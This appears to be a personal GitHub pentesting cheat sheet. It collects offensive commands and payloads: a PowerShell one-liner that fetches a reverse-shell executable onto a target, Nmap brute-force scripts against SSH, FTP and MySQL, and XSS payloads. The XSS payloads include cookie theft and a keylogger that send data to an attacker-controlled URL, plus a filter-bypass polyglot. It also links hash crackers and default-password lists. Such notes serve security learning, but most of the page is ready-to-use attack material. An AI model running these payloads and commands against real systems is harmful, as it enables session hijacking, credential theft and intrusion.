  <!-- <h1 align='center'> Penetration time</h1> -->
 <body>
	
[![Typing SVG](https://readme-typing-svg.demolab.com?font=Bitter&weight=500&size=40&pause=1000&color=3C4CFF&background=AC51FF00&width=500&height=80&lines=P3netrati0n+T1me!)](https://git.io/typing-svg)
<img src='https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYWM2NWI0ZDIwMjA3ZWIyYWRiZmEyYzA5NTFlNThmNTFhYWI1MWE0ZiZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3oz8xA9gtnyVDPZJHW/giphy.gif' width='250'/>
<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!
	<li> resume my stars-->
</ol>

<h2 align='center' id='n1'><em> Example Commands</em> </h2> 
	Example commands contains:
	<li> Remote Desktop Protocol <a href='#n1.1'> (RDP) </a>
	<li> <a href='#n1.2'> Command </a> to get stable shell from unstable from PowerShell
	<li> <a href='#n1.3'> Find </a> commands in Linux
	<li> Nmap <a href='#n1.4'> commands </a> with vulners script
<h3 id='n1.1'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Remote Desktop Protocol (RDP)</h3>
  <pre><code>xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;'PASSWORD'></code></pre>
  <p><pre><code>xfreerdp /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;PASSWORD> +clipboard</code></pre>
	
<h3 id='n1.2'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;To get stable shell from unstable from PowerShell</h3>
  <pre><code>powershell -c "Invoke-WebRequest -Uri 'http://&lt;LOCAL_IP>:&lt;PORT>/&lt;FILENAME.exe>' -OutFile 'C:\Windows\Temp\&lt;FILENAME.exe>'"</code></pre> where filename is the reverse shell
  
<h3 id='n1.3'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Commands to find in:</h3>
<h4>&nbsp;&nbsp;&nbsp;Linux</h4>
	<p> <pre><code>find / -type f</code></pre> - Find all files in / directory (-type d for find dirs)
	<p> <pre><code>find / -type f | grep '&lt;FILE_NAME>'</code></pre> - File name search
	<p> <pre><code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code></pre> - Find all path files with ‘config’ in proc dirs
		
<h3 id='n1.3'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Nmap with vulnerse script</h3>
Need to <a href='https://github.com/vulnersCom/nmap-vulners/archive/master.zip'>download</a> script files from github and install it. Thanks for that, Vulners Team!

   <p> <pre><code> Nmap -Pn &lt;TARGET_IP> --script=vulnerse.nse -p &lt;PORT(S)></code></pre> - Checking for a vulnerability in the software on the server.
   <p> <pre><code> nmap --script ssh-brute -p &lt;SSH_PORT> &lt;TARGET_IP> --script-args userdb=users.lst,passdb=passwords.lst</code></pre> - Checking brute force resistance on ssh
   <p> <pre><code> nmap -d --script ftp-brute -p &lt;FTP_PORT> &lt;TARGET_IP></code></pre> - Checking brute force resistance on ftp
   <p> <pre><code> nmap -sV --script=mysql-empty-password &lt;TARGET_IP></code></pre> - Checking mysql anonymous login
   <p> <pre><code> nmap --script mysql-brute -p &lt;MYSQL_PORT> &lt;TARGET_IP> --script-args userdb=users.lst, passdb=passwords.lst</code></pre> - Attempts to select a pair of login/password to enter the mysql database
   <p> <pre><code> nmap -sV -p &lt;PORT> –script http-enum &lt;TARGET_IP></code></pre> - Search for hidden folders and files
   <p> P.S. If CMS, research <code>&lt;name_0f_CMS_0r_DB> brute force nmap</code>
	
<h2 align='center' id='n2'><em>Payloads</em></h2>
    <h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <pre><code><script>alert('Success XSS!');</script></code></pre>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <pre><code><script>fetch('url/steal?cookie=' + btoa(document.cookie));</script></code></pre>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <pre><code><scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script></code></pre>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> - <pre><code><script>user.changeEmail('your@email.com');</script></code></pre>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - <pre><code>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e</code></pre>
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 align='center' id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Dafault Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Dafault Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 align='center' id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Powerful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: <pre><code>crunch 3 3 12345qwerty -o cranch.txt</code></pre>.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and <p> <pre><code>python3 username_generator.py -h</code></pre> shows the tool's help message and optional arguments.
	</ol>
	
</body>
